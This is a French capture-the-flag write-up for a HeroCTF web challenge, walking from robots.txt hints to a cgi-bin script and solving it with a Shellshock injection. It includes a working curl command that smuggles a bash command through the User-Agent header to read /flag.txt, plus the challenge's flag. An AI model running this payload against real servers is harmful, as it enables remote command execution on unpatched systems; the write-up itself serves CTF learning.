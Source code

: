 # C'est choquant

### Description

Un développeur est en train de faire son site internet. Il est sur que s'il n'y a aucune entrée utilisateur, il ne peut pas être piraté. Prouvez lui le contraire en récupérant le fichier /flag.txt!

Accéder au challenge

PS : Le bruteforce reste interdit sur cette épreuve.

Format : Hero{flag}

### Solution

Quand on arrive sur la page web, rien de bien intéressant.

Permier réflexe : aller voir le `robots.txt`

Ce fichier nous indique qu'il y a un fichier sensé être caché sous le nom de `th1s1ss3cr3t.txt`

Et dans ce même fichier, une petite phrase
>  "Hi Worty, I've put a test file for cgi-bin : wazuuup, check it out!".

cgi-bin est un réperoire dans lequel des scripts peuvent êtres exécutés.

En allant dans ce répertoire, on reçoit une erreur `403 Forbidden`

Je me dis alors que le script à utiliser est `cgi-bin/wazuuup`

Encore une fois, rien de bien intéressant, le script se contente de nous afficher la date et l'heure...

Après quelques recherches, il semblerait qu'il existe une faille nommée `shellshock` qui nous permet d'envoyer des commandes en bash. 

Le flag étant à la racine on tape la commande 
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cd /;cat flag.txt;'" http://challs.heroctf.fr:3015/cgi-bin/wazuuup/
```

[Shellshock Vulnerability](https://linuxfr.org/news/une-faille-nommee-shellshock)

Flag : `Hero{sh3llsh0ck_1s_c00l_!!}`
